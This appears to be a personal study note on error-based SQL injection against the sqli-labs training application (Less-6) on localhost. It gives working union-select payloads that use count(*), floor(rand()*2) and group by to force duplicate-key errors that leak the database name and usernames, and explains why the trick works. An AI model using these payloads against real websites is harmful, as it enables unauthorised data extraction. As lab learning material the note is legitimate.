

# error

http://127.0.0.1:8888/sqli/Less-6/?id=1' union select 1,count(\*),concat(database(),(floor (rand()\*2))) a from information_schema.tables group by a --%20

count(*) is required

if use `group by`.
have to specify the table to queryg

## second step

?id=1' union select 1,count(\*),concat((select username from security.users limit 0,1), floor (rand()\*2)) from information_schema.tables group by 3 --%20

take notice of () in (rand()\*2)

?id=1' union select 1,count(\*),concat((select username limit 0,1), floor (rand()\*2)) from security.users group by 3 --%20
won't work

this is because in the first one, (select username from security.users limit 0,1) is a fixed string like "admin"
so, the second is equal to
select 1,count(*),concat('admin', floor (rand()\*2)) from XXX group by 3

HOWEVER
(select username limit 0,1) is equal to just username
SO, the second setence is equal to
select 1,count(*),concat(username, foor (rand()\*2)) from security.users group by 3

In this case, there would be several rows with **different** username column.
NO duplicate group_key may happen--> NO error

## about group

group by a "column name"

group by 2 means group by the second column, it got the same result as create variabel "a" and then group by a

if group by a column has rand(). It's very special.
Because what "value" this column will have is unsure.

At usual time.
If a column has value 0 or 1.
the database will first find all rows that has value 0 in that column
then find all rows has value 1 in that column

However, if the column has rand(), and group by exact that column
first try to find all rows having 0 in that column
then try to find all rows having 1 in that column
!! And then may try to find rows having 1 in that column again because of unstable value.

In this case, an error will be thrown

